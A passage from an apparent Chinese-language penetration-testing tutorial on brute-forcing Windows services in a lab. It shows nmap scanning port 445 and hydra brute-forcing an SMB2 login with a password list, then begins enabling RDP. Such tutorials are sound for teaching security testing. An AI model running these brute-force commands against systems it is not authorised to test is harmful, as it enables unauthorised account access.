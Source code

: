 开启 Windows 10 的 SMB 服务

nmap 扫描 445 端口

```
┌──(root㉿Kali-24)-[~/thc-hydra-master]
└─# nmap 192.168.1.102 -p 445
```

爆破（需指定 SMB 版本）

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l windows -P [file_name].txt smb2://192.168.1.102 -vV
```

> 成功爆破

### 2.2.2 RDP

运行 sysdm.cpl

![运行 sysdm.cpl](./../../../images/%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3/%E8%BF%90%E8%A1%8C%20sysdm.cpl.png)

开启 RDP 服务（家庭版无此功能）
